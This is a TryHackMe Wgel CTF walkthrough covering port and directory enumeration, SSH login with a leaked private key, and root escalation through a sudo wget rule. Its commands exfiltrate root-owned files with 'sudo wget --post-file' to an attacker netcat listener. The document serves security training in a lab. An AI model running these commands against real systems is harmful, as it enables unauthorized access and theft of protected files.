

# TryHackMe Wgel CTF — Walkthrough

## Overview

| Detail | Information |
|---|---|
| Platform | TryHackMe |
| Room | Wgel CTF |
| Target IP | `10.49.145.235` |
| Attacker Machine | Kali Linux |
| Target Machine | Ubuntu Linux |
| Initial User | `jessie` |
| Privilege Escalation | Sudo misconfiguration — Wget |
| Status | Completed |

## 1. Objective

The objective was to compromise the target machine, obtain the user flag, escalate privileges to root, and retrieve the root flag.

## 2. Reconnaissance — Nmap

Started with a full TCP port scan:

```bash
nmap -sC -sV -p- 10.49.145.235
```

### Discovered services

| Port | Service | Description |
|---|---|---|
| 22 | SSH | OpenSSH |
| 80 | HTTP | Apache Web Server |

**Explanation:**
- Port 22: SSH remote login service.
- Port 80: HTTP web server.

## 3. Web Enumeration

Opened the target in a browser:

```text
http://10.49.145.235
```

Used Gobuster to discover directories:

```bash
gobuster dir -u http://10.49.145.235 -w /usr/share/wordlists/dirb/common.txt
```

Discovered the `/sitemap/` directory.

Further enumeration:

```bash
gobuster dir -u http://10.49.145.235/sitemap/ -w /usr/share/wordlists/dirb/common.txt
```

Discovered an exposed SSH directory:

```text
/sitemap/.ssh/
```

## 4. SSH Private Key Discovery

Checked the exposed directory:

```bash
curl -s http://10.49.145.235/sitemap/.ssh/
```

Discovered the `id_rsa` private key.

Downloaded it:

```bash
curl -o id_rsa http://10.49.145.235/sitemap/.ssh/id_rsa
```

Changed permissions:

```bash
chmod 600 id_rsa
```

Validated the key:

```bash
ssh-keygen -y -f id_rsa
```

**Security lesson:** Exposing SSH private keys through a public web directory can compromise server accounts.

## 5. Initial Access — SSH

Identified the SSH username as:

```text
jessie
```

Connected to the target:

```bash
ssh -i id_rsa jessie@10.49.145.235
```

Obtained access to the target as Jessie and retrieved the user flag.

## 6. Privilege Escalation Enumeration

Checked sudo permissions:

```bash
sudo -l
```

Important output:

```text
User jessie may run the following commands on CorpOne:

(ALL : ALL) ALL
(root) NOPASSWD: /usr/bin/wget
```

**Explanation:**

Jessie can execute `/usr/bin/wget` as root without entering a password.

This is a dangerous sudo configuration because Wget can read files and send their contents to another machine.

## 7. Privilege Escalation — Wget

Checked the Wget version:

```bash
/usr/bin/wget --version
```

Version:

```text
GNU Wget 1.17.1
```

### Step 1: Find the Kali VPN IP

On Kali Linux:

```bash
ip -4 addr show tun0
```

Example:

```text
192.168.170.178
```

### Step 2: Start a Netcat listener

On Kali Linux:

```bash
nc -lvnp 8000
```

### Step 3: Transfer a root-owned file

On the target SSH session:

```bash
sudo /usr/bin/wget --post-file=/root/.bashrc http://KALI_VPN_IP:8000
```

This confirmed that Wget could read root-owned files and send their contents to Kali.

### Step 4: Retrieve the root flag

Started the Kali listener again:

```bash
nc -lvnp 8000
```

On the target machine, used:

```bash
sudo wget --post-file=/root/root_flag.txt http://KALI_VPN_IP:8000
```

The root flag was received in the POST request on Kali.

**Result:** Successfully retrieved the root flag.

## 8. Attack Flowchart



## 9. Vulnerabilities Identified

1. **Exposed SSH Private Key:** Private key was accessible through a public web directory.
2. **Insecure Sudo Configuration:** Jessie could execute Wget as root without a password.
3. **Sensitive File Disclosure:** Root-owned file contents could be transferred using Wget's POST functionality.

## 10. Lessons Learned

Through this CTF, I learned:

- Nmap service and port enumeration.
- Web directory enumeration using Gobuster.
- Identifying exposed sensitive files.
- SSH authentication using private keys.
- Linux user and permission enumeration.
- Understanding `sudo -l`.
- Identifying dangerous sudo permissions.
- Exploiting Wget misconfiguration in an authorized lab.
- Using Netcat to receive HTTP POST requests.
- Understanding Linux privilege escalation.

## 11. Conclusion

Successfully completed the TryHackMe Wgel CTF.

The initial access was obtained through SSH, and privilege escalation was achieved through an insecure sudo permission for Wget.

Both user and root flags were retrieved.

**Lab status: Completed ✅**

---

**Disclaimer:** This walkthrough documents an authorized TryHackMe training environment. Do not perform these techniques against systems without explicit permission.
